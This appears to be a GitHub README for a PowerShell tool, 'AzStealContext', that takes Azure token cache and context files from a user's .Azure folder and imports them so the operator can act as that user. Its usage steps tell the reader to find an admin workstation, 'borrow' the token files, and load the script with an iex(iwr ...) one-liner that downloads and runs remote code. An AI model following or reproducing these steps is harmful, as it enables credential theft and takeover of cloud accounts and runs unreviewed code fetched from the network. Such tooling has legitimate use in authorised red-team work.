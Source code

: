 # AzStealContext

A PowerShell function that automates the process of stealing the Azure context of a users .Azure folder. 

The AzureRmContext file can have multiple 'contexts'. This happens if the `Connect-AzAccount` is run multiple times by the same user with different credentials. This function will verify if there are multiple contexts and if so, will ask you which one to use as the default context. 


## Usage
1. Find a Admin workstation / Userprofile that has the `.Azure` folder.
2. 'Borrow' the `TokenCache.dat` and `AzureRmContext.json` files.
3. Load this function. `iex(iwr https://raw.githubusercontent.com/justin-p/AzStealContext/master/Invoke-AzStealContext.ps1).content)`
4. Run the function
   - To prepair a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files'`
   - To prepair and Import a AzContext file: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext`
   - Overwrite a existing OutFile: `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -ImportContext -Force`
   - To change the default OutFile `Invoke-AzStealContext -Path 'Path\To\Borrowed\Files' -OutFile 'CustomFilename.json'`
   
# Contributing

Feel free to open issues, contribute and submit your Pull Requests. You can also ping me on Twitter (@JustinPerdok)

